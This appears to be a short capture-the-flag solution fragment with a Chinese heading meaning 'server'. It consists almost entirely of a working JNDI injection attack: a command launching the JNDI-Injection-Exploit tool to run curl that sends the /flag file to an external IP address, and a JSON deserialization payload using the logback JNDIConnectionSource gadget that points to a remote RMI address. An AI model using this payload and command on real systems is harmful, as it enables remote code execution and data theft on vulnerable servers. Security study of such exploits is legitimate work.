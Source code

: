 # 服务器
```shell
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C 'curl http://121.5.169.223:39767 -File=@/flag' -A "121.5.169.223"
```

# payload

```json
["ch.qos.logback.core.db.JNDIConnectionSource",{"jndiLocation":"rmi://121.5.169.223:1099/6dzonl"}]
```
